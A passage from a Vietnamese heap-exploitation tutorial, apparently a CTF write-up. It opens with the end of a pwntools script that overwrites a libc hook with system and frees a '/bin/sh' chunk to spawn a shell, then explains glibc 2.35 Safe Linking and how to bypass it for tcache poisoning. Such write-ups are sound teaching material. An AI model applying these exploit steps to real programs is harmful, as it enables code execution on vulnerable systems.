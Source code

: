 ```python=

#Overwrite there for hook overwrite
w(p64(libc.address + 0x1eee48))

#Malloc for hook overwrite by system
buy(512, b'\0')
buy(512, p64(libc.sym.system))

#Free this for shell
buy(512, b'/bin/sh\0')
er()
p.interactive()
```
---

#### 1.3 GLIBC 2.35
- Ở phiên bản libc này đã có Tcache và đồng thời đã tích hợp thêm cơ chế **Safe Linking** (đã được thêm vào từ phiên bản Glibc 2.32) cho cơ chế liên kết đơn của các chunk trong Tcache và Fast bin, đồng thời là cơ chế **Malloc Aligned Tcache** kiểm tra các chunk, pointer để đảm bảo bảo mật cho việc cấp phát.
> Safe Linking
> -
> - Được áp dụng cho các chunk trong Tcache và Fast bin, cơ chế này giúp mã hóa thông tin liên kết giữa các chunk. Cụ thể, các **Forward pointer** sẽ bị mã hóa nhằm nâng cao bảo mật và hạn chế các khai thác bằng con trỏ này như Tcache Poisoning -> Arbitrary Malloc. 
> Cơ chế được định nghĩa trong source libc như sau:
> ```c=
> /* Safe-Linking:
>    Use randomness from ASLR (mmap_base) to protect single-linked lists
>    of Fast-Bins and TCache.  That is, mask the "next" pointers of the
>    lists' chunks, and also perform allocation alignment checks on them.
>    This mechanism reduces the risk of pointer hijacking, as was done with
>    Safe-Unlinking in the double-linked lists of Small-Bins.
>    It assumes a minimum page size of 4096 bytes (12 bits).  Systems with
>    larger pages provide less entropy, although the pointer mangling
>    still works.  */
> #define PROTECT_PTR(pos, ptr) \
>   ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
> #define REVEAL_PTR(ptr)  PROTECT_PTR (&ptr, ptr)
>
> ```
> - Cơ chế này sử dụng bao gồm 2 địa chỉ cho việc mã hóa đó là địa chỉ heap chứa con trỏ và con trỏ và được mã hóa bằng hàm `PROTECT_PTR()` theo một công thức: 
> `ptr_en = (pos >> 12) ^ ptr`
> Trong đó, hàm sử dụng địa chỉ heap chứa con trỏ là **pos** (position) dịch trái **12 bits** (ứng với trang kích thước 4096 bytes) và con trỏ là **ptr** (pointer). Kết quả trả về là con trỏ được mã hóa **ptr_en** (pointer_encrypted). Đồng thời cơ chế còn định nghĩa hàm `REVEAL_PTR()` với tham số là **ptr_en** và **ptr** để giải mã con trỏ.
> - Giả sử ta đang có một Double Free và hiện tại Forward Pointer đang trỏ đến chính chunk hiện tại: 
> ![{55BB71ED-8BDD-4739-B25F-1921F7A6C3C4}](https://hackmd.io/_uploads/HJsGbt21xl.png)
> Ta thấy rằng giá trị của Forward Pointer sau khi bị mã hóa là `0x3c08b2217` là mã hóa của địa chỉ chunk hiện tại đó là `0x2c0b72a0`. Ta sẽ thực hiện tìm lại giá trị ban đầu của Forward Pointer với kết quả mong muốn là `0x2c0b72a0`:
> Từ công thức trên, ta có công thức được biến đổi đển tìm giá trị ban đầu của **ptr** là  `ptr = (pos >> 12) ^ ptr_en` và **pos** đang là `0x2c0b72a0` và **ptr_en** là `0x3c08b2217`:
> ![{13BADD5F-1883-40DC-8C3F-D758E0CF3F70}](https://hackmd.io/_uploads/Syy-Fthkgx.png)
> Vậy kết quả trùng khớp với địa chỉ chunk hiện tại.
> - Và điều này hoàn toàn có thể được bypass và ta vẫn có thể thực hiện việc Tcache Poisoning như bình thường nhưng phải thêm một bước đó là mã hóa địa chỉ mục tiêu mà ta muốn cấp phát tại đó. Cách mã hóa sẽ dựa vào công thức trên và ta sẽ có công thức để tạo ra con trỏ mã hóa là: `ptr_en = (pos >> 12) ^ ptr`.